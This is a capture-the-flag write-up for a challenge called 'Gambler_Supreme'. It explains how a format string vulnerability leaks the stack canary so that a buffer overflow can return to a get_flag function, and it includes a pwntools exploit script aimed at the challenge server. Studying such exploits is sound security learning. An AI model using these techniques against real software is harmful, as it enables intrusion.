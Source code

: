 # Gambler_Supreme
## Description
This challenge gives you an ELF file and remote server that ask you to guess random strings to get coins. This time, getting coins does not get you the flag.
## Solution
There is now a format string vulnerability in addition to the buffer overflow. We need to use the format string vulnerability to leak the stack canary, then use that in the buffer overflow to return to `get_flag`
## Solve Script
```py
from pwn import *  
context.log_level = "critical"  
flag = p64(0x4015ba)  
r = remote('ctf.b01lers.com', 9201)  
r.recvuntil(b"inclusive): ")  
r.send(b"7\n")  
r.recvuntil(b"letters: ")  
r.send(b"%13$llx\n")  
canary = p64(int(r.recvline()[12:-1].decode(), 16))
r.sendline(b"a" * 40 + canary + b"b" * 8 + flag)  
r.interactive()
```